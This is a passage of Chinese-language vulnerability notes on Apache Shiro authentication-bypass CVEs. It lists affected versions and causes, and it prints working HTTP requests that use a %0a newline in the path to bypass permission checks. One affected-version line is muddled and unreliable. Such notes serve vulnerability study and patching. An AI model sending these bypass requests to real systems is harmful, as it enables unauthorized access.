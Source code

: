 **原因**

```
Apache Shiro 1.9.1前的版本RegExPatternMatcher在使用带有“.”的正则时，可能会导致权限绕过。漏洞源于RegExPatternMatcher默认使用的正则匹配的“.”不会匹配换行符，因此可以使用在路径中添加换行符来绕过权限匹配。
```

**payload**

```
这个请求可以成功
GET /permit/any HTTP/1.1
Token: 4ra1n

没有令牌请求头时不允许访问
GET /permit/any HTTP/1.1

它可以在特殊但常见的配置中以简单的方式绕过
GET /permit/a%0any HTTP/1.1
```



### apache shiro 认证机制不恰当(CVE2021-41303)

 **影响版本**

```
Apache Shiro < 1.8.0  不受影响 Apache Shiro > 1.8.0
```

**原因**

```
Apache Shiro 存在授权问题漏洞，该漏洞源于Apache Shiro在1.8.0版本之前，当使用Apache Shiro与Spring Boot时，一个特别制作的HTTP请求可能会导致身份验证绕过。
```

**payload**

```
暂无
```



### Apache Shiro < 1.7.1 权限绕过漏洞（CVE-2020-17523)

https://github.com/jweny/shiro-cve-2020-17523

**影响版本**

```
 Apache Shiro < 1.7.1  不受影响 Apache Shiro >= 1.7.1 版本
```

**原因**

```
存在漏洞的shiro版本，由于调用tokenizeToStringArray方法时，trimTokens参数默认为true，空格会经过trim()处理，因此导致空格被清除。再次返回getChain时最后一个/被删除，所以/admin与/admin/*匹配失败，导致鉴权绕过。而Spring接受到的访问路径为/admin/%20，按照正常逻辑返回响应，因此导致权限被绕过。
```
